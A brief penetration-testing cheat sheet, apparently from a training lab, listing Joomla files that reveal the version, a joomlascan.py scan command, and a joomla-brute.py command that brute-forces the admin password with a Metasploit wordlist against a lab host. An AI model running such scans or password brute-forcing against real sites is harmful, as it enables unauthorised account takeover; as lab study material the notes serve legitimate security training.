 ## Possible files to fingerprint version. ##
/administrator/manifests/files/joomla.xml
/README.txt

## Joomla Scan Commands ##
python2.7 joomlascan.py -u http://dev.inlanefreight.local

## Joomla Brute Password Brute Force (Admin) ##
python3 joomla-brute.py -u http://dev.inlanefreight.local/ -w /usr/share/metasploit-framework/data/wordlists/http_default_users.txt -usr admin

